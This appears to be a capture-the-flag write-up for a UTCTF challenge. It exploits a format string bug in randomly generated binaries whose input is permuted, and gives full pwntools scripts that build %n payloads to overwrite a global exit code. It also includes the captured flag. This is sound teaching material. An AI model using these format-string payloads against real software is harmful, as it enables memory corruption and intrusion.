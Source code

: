 # Writeup  
If we interact with the server:

```  
$ nc pwn.utctf.live 5002  
You will be given 10 randomly generated binaries.  
You have 60 seconds to solve each one.  
Solve the binary by making it exit with the given exit code  
Press enter when you're ready for the first binary.  
```

After pressing enter, we're given a small binary in hexdump format.

We copy it in a file ```random_0.hex``` and get the actual ELF with:

```  
$ xxd -r random_0.hex > random_0  
```

Now, we can guess that the randomly generated binaries are similar among them,
the randomness will be in some input-modifying function.

So we analyze the obtained executable file:

```  
$ file random_0  
random_0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=335c472b5b0059a4d4826b6c1f8218d59e757ff0, for GNU/Linux 3.2.0,
not stripped

$ checksec random_0  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)

$ ltrace ./random_0  
fgets(AAAAAAAAAAA  
"AAAAAAAAAAA\n", 514, 0x7f380aa14800)
= 0x7ffcc61b7380  
printf("")
= 0  
exit(0 <no return ...>  
+++ exited (status 0) +++  
```

It has some protections enabled, and it basically ```fgets``` at most 514
bytes of data, then performs a ```printf```.

If we decompile it with Ghidra, we can see that the binary performs these
actions:

```  
 fgets((char *)&local_218,0x202,stdin);  
 permute((long)&local_218);  
 printf((char *)&local_218);  
 exit(exit_code);  
```

So, it's clearly the case of a format string attack; our ltrace showed that
the printf had a null string as parameter because there is input permutation,
which in this case has put a null byte at the start of the buffer.

The ```exit_code``` is a global variable, so the idea is to perform the format
string attack to overwrite it with the exit code given alongside the binary.  

The ```permute``` function calls 8 permutation sub-functions in random order,
for example:

```  
void permute(long param_1)

{  
 permute2(param_1);  
 permute3(param_1);  
 permute6(param_1);  
 permute7(param_1);  
 permute4(param_1);  
 permute1(param_1);  
 permute8(param_1);  
 permute5(param_1);  
 return;  
}  
```

A combination of permutations is still a permutation, so we can get a complete
mapping ```position i -> position j``` by executing the program locally many
times (we don't need to use angr to solve this task).

The first thing to do is to patch the binary to develop a working exploit,
without permutation; so we basically replace the call to ```permute``` in
```main``` with a sequence of NOP instructions.

We save the patched binary into ```random_0_patched``` and developed the
exploit for it (it wanted 168 as exit code):

```  
def test_exploit_patched():  
   elf = ELF("./random_0_patched")  
   context.binary = elf  
   addr = elf.symbols['exit_code']  
   val = 168  
   # target_payload = fmtstr_payload(8, {addr: val})  
   target_payload = f"%{val}c%10$n".encode()  
   target_payload += b'A' * (16 - len(target_payload))  
   target_payload += p64(addr)  
   print(target_payload)  
   r = elf.process()  
   r.sendline(target_payload)  
   _exit_code = r.poll(block=True)  
   print(_exit_code)  
```

Now that we have a working exploit, we need a function to get the permutation
map, so that the executable will put the characters of the exploit in the
right positions.

The permutation map can be obtained very fast by starting the executable a few
times, but I went for an easy, non-optimized function:

```  
def get_permutation_map(filename):  
   mapping = {}  
   for i in range(0x202):  
       payload = "_" * i + "A" + "_" * (0x202 - i - 1)  
       r = process([filename])  
       r.sendline(payload)  
       res = r.recv().decode()  
       r.close()  
       try:  
           pos = res.index('A')  
           mapping[pos] = i  
       except:  
           pass  
   return mapping  
```

It's quick and dirty and it obtains just a single mapping for every execution
(so, 514 processes for full mapping), but it does the job.

Now we can put the pieces together and test the exploit on the original
binary:

```  
def test_exploit():  
   filename = "./random_0"  
   elf = ELF(filename)  
   context.binary = elf  
   addr = elf.symbols['exit_code']  
   val = 168  
   target_payload = f"%{val}c%10$n".encode()  
   target_payload += b'A' * (16 - len(target_payload))  
   target_payload += p64(addr)  
   mapping = get_permutation_map(filename)  
   exploit = [b'_' for _ in range(0x202)]  
   for i in range(len(target_payload)):  
       exploit[mapping[i]] = target_payload[i].to_bytes(1, 'little')  
   exploit = b"".join(exploit)  
   r = elf.process()  
   r.sendline(exploit)  
   _exit_code = r.poll(block=True)  
   print(_exit_code)  
```

It's quite slow, but it works; the last thing to do is to automate the
interaction with the remote service, to get the binary, decode it, make it
executable, get the desired exit code, get the permutation mapping and craft
the final exploit, then repeat this for 10 times. An implementation issue is
that we have to make sure that the ```fgets``` of a binary reads all our
input, otherwise the ```fgets``` of the next binary will read some non-flushed
input and the exploit will not work. To overcome this issue, we have to
truncate our exploit payload to the minimum length required to perform the
format string attack (i.e., we must not add padding to reach 514 bytes).

```  
from pwn import *  
import os  
import time

...

def get_permutation_map(filename):  
   ...

def main():  
   r = remote("pwn.utctf.live", 5002)  
   r.sendlineafter('binary.\n', '')  
   for k in range(10):  
       data = r.recvrepeat(2).decode().split('\n\n')  
       start = time.time()  
       binary = data[0]  
       ind = binary.index("00000000:")  
       binary = binary[ind:]  
       with open("random_bin.hex", 'w') as f:  
           f.write(binary)  
       os.system("xxd -r random_bin.hex > random_bin")  
       os.system("chmod +x random_bin")  
       val = int(data[1].split('\n')[1].split(' ')[-1])  
       filename = "./random_bin"  
       elf = ELF(filename)  
       context.binary = elf  
       addr = elf.symbols['exit_code']  
       target_payload = f"%{val}c%10$n".encode()  
       target_payload += b'A' * (16 - len(target_payload))  
       target_payload += p64(addr)  
       mapping = get_permutation_map(filename)  
       exploit = [b'_' for _ in range(0x201)]  
       _max = 0  
       for i in range(len(target_payload)):  
           exploit[mapping[i]] = target_payload[i].to_bytes(1, 'little')  
           if mapping[i] > _max:  
               _max = mapping[i]  
       exploit = b"".join(exploit)[:_max+1]  
       elapsed = time.time() - start  
       print(f"{exploit = }")  
       print(f"{val = }")  
       print(f"{elapsed = }")  
       r.sendline(exploit)  
   r.interactive()  
```

By running it, we obtain:

```  
$ python script.py  
...  
exploit =
b'______________________________________________________________________________________________________________________________________________________________________________________________________A%5c%10$nAAAAAAA_\\@@\x00\x00\x00\x00\x00'  
val = 5  
elapsed = 8.956268072128296  
[*] Switching to interactive mode  
Process exited with return code 5  
Congrats!  
utflag{you_mix_me_right_round_baby_right_round135799835}  
```

Original writeup
(https://pwnthenope.github.io/writeups/2022/03/15/automated_exploit_generation_2.html).